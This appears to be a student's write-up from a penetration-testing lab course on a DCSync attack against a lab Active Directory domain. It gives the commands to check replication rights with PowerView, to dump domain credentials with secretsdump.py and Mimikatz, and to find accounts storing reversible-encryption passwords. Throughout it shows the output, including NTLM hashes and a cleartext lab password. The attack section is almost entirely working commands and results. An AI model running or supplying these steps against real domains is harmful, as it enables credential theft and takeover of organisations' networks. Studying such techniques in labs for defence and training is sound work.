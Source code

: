 # DCSync
#### Using Get-DomainUser to View adunn's Group Membership

```Powershell
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```
#### Using Get-ObjectAcl to Check adunn's Replication Rights

```bash
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```
# FROM LINUX
#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```bash
Yashfren@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

#### We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user </USERNAME> to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The -user-status is another helpful flag to check and see if a user is disabled.  If we check the files created using the -just-dc flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

```bash
Yashfren@htb[/htb]$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```
#### Enumerating Further using Get-ADUser

```Powershell
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
We can see that one account, proxyagent, has the reversible encryption option set with PowerView as well:
```
#### Checking for Reversible Encryption Option using Get-DomainUser

```Powershell
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
We will notice the tool decrypted the password and provided us with the cleartext value.
```
#### Displaying the Decrypted Password

```bash
Yashfren@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```
# FROM WINDOWS
#### Using runas.exe

```PowerShell
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```
#### Performing the Attack with Mimikatz

```PowerShell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```
